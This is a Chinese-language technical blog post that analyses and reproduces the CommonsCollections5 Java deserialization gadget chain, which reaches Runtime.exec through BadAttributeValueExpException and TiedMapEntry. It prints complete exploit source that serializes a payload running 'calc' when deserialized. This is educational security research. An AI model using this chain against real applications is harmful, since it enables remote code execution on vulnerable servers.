 ```yaml
---
title: CommonsCollections5
date: 2021-12-22 18:41:19
categories:
- Java
tags:
- Deserialization exploit chain
toc: true
notshow: true
---
```


# 流程图

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640162433713-d99138d4-2914-42e3-92c2-cfc862d8fbb0.jpeg)



# 分析与复现

## 0x00 概述

CC5 的后半段利用方式与 CC6 差不多，使用 TiedMapEntry.toString 调用 LazyMap.get 进而调用 chainedTransformer.transform。但 CC5 的入口点使用的是 BadAttributeValueExpException.readObject。该类的 readObject 方法会调用另一个类的 toString 方法。



### 利用版本

CommonsCollections 3.1 - 3.2.1

### 限制

JDK版本：暂无

## 0x01 触发点

触发点还是 Runtime.exec，使用 TiedMapEntry.toString 调用 LazyMap.get 进而调用 chainedTransformer.transform。

这一部分的代码在编写时可以直接粘贴 CC6 的。

```java
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new ConstantTransformer(
                                Runtime.class
                        ),
                        new InvokerTransformer(
                                "getMethod",
                                new Class[]{String.class,Class[].class},
                                new Object[]{"getRuntime",null}
                        ),
                        new InvokerTransformer(
                                "invoke",
                                new Class[]{Object.class,Object[].class},
                                new Object[]{null,null}
                        ),
                        new InvokerTransformer(
                                "exec",
                                new Class[]{String.class},
                                new Object[]{"calc"}
                        )
                });

        HashMap<Object, Object> hashMap = new HashMap<>();

        Map map = LazyMap.decorate(hashMap,chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, 1);
```



## 0x02 调用链

TiedMapEntry 继续往上寻找利用链，就需要找哪一个类调用了 toString 方法，调用这个方法的类实在是太多了，CC5 的作者在 BadAttributeValueExpException 类的 readObject 方法中找到了对 toString 方法的调用，因此非常方便。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640162636746-3ca8ea14-36d3-4a8d-980d-e36d4561596d.png)

val 可以在构造函数中直接赋值。因此可以直接赋值为 TiedMapEntry 。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640162686680-382cf20c-edb9-487b-8e4f-b46d49d639f9.png)

注意到，如果 TiedMapEntry 不为 null ，则会直接调用 toString 方法，我们在序列化之前不希望执行 payload，因此可以在实例化对象时赋值为 null，然后使用反射的方式将 val 修改为 TiedMapEntry 。

下面编写 exp：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC5 {
    public static void main(String[] args) throws Exception {
//        TestCC5();
        unserialize("abc.ser.bin");
    }

    public static void TestCC5() throws Exception {
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new ConstantTransformer(
                                Runtime.class
                        ),
                        new InvokerTransformer(
                                "getMethod",
                                new Class[]{String.class,Class[].class},
                                new Object[]{"getRuntime",null}
                        ),
                        new InvokerTransformer(
                                "invoke",
                                new Class[]{Object.class,Object[].class},
                                new Object[]{null,null}
                        ),
                        new InvokerTransformer(
                                "exec",
                                new Class[]{String.class},
                                new Object[]{"calc"}
                        )
                });

        HashMap<Object, Object> hashMap = new HashMap<>();

        Map map = LazyMap.decorate(hashMap,chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, 1);
//        tiedMapEntry.toString();
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);
        serialize(badAttributeValueExpException);
    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("abc.ser.bin"));
        oos.writeObject(o);
    }

    public static void unserialize(String filePath) throws Exception{
        ObjectInputStream ins = new ObjectInputStream(new FileInputStream(filePath));
        ins.readObject();
    }
}
```

可以弹出计算器。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640162986034-c9d5e6f2-b0eb-4552-a2ef-d98d323aed02.png)



# 参考资料

- [Java反序列化CommonsCollections篇(四)-摆烂的完结篇](https://www.bilibili.com/video/BV1NQ4y1q7EU?spm_id_from=333.999.0.0)
- [ysoserial](https://github.com/frohoff/ysoserial)

- [Commons-Collections 1-7 利用链分析](http://wjlshare.com/archives/1535)